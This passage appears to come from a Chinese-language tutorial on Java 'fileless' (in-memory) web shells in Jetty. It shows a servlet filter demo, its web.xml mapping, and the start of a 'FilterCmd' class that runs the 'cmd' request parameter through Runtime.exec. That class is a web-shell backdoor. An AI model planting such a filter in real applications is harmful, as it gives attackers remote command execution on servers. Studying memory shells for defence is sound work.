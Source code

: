 ```java
        }
        filterChain.doFilter(servletRequest, servletResponse);
    }

    @Override
    public void destroy() {

    }
}
```

web.xml配置如下

```xml
<filter>
	<filter-name>FilterDemo</filter-name>
	<filter-class>com.example.jetty9.filter.FilterDemo</filter-class>
</filter>
<filter-mapping>
	<filter-name>FilterDemo</filter-name>
	<url-pattern>/filter</url-pattern>
</filter-mapping>
```

测试效果如图

![image-20211216233502724](fileless-shell.assets/image-20211216233502724.png)

##### Filter Cmd

com.example.jetty9.filter.FilterCmd

```java
public class FilterCmd implements Filter {

    @Override
    public void init(FilterConfig filterConfig) throws ServletException {
    }

    @Override
    public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
        String cmd = servletRequest.getParameter("cmd");
        if (cmd != null) {
            Process process = Runtime.getRuntime().exec(cmd);
```